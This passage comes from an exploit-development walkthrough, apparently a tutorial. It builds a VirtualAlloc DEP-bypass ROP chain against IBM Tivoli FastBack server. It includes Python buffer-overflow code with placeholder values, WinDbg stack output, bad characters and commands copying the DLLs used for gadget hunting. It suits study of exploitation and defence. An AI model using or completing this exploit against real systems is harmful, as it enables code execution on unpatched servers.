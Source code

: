 We replace our offsets with our required function and parameters to load `VirtualAlloc`. We adjust our exploit as shown below.

```python
va  = pack("<L", (0x45454545)) # VirutalAlloc Address
va += pack("<L", (0x46464646)) # Return Address (Shellcode on stack)
va += pack("<L", (0x47474747)) # lpAddress (Shellcode on stack)
va += pack("<L", (0x48484848)) # dwSize 
va += pack("<L", (0x49494949)) # flAllocationType 
va += pack("<L", (0x51515151)) # flProtect

#### Reminder of how the values would be entered based on the function prototype ####
# lpAddress => point to address of  previously commitd memory page e.g. shellcode on stack
# dwSize => 0x01 to 0x1000 ; size of the memory region we want to change, any value between 
# flAllocationType => 0x00001000 ; which is MEM_COMMIT
# flProtect => 0x00000040 ; 0x40 which is PAGE_EXECUTE_READWRITE

offset = b"A" * (276 - len(va))
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4) 

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset + va + eip + rop ,0,0,0,0)
buf += formatString

```

We confirm that our everything loads correctly as shown below by running `dd esp - 1C` in our WinDBG debugger.

```python
0:079> dd esp - 1C
**0d4fe300  45454545 46464646 00000000 48484848
0d4fe310  00000000 51515151** 42424242 43434343
0d4fe320  43434343 43434343 43434343 43434343
0d4fe330  43434343 43434343 43434343 43434343
0d4fe340  43434343 43434343 43434343 43434343
0d4fe350  43434343 43434343 43434343 43434343
0d4fe360  43434343 43434343 43434343 43434343
0d4fe370  43434343 43434343 43434343 43434343
```

We see that our `lpAddress` and `flAllocationType` parameters doesn’t load properly, however, we ignore it for now as we will be replacing them with the correct values. Based on our previous knowledge we know the bad characters are `0x00, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x20`. We have successfully prepared our exploit for the `VirtualAlloc` DEP bypass. 

## Selecting Gadgets File <a name="gadgets"></a>

We copy three files we would like to utilise to a folder.

```python
copy "C:\Program Files\Tivoli\TSM\FastBack\server\CSNCDAV6.DLL"
copy "C:\Program Files\Tivoli\TSM\FastBack\server\CSMTPAV6.DLL"
copy "C:\Program Files\Tivoli\TSM\FastBack\server\SNFS.DLL"
```
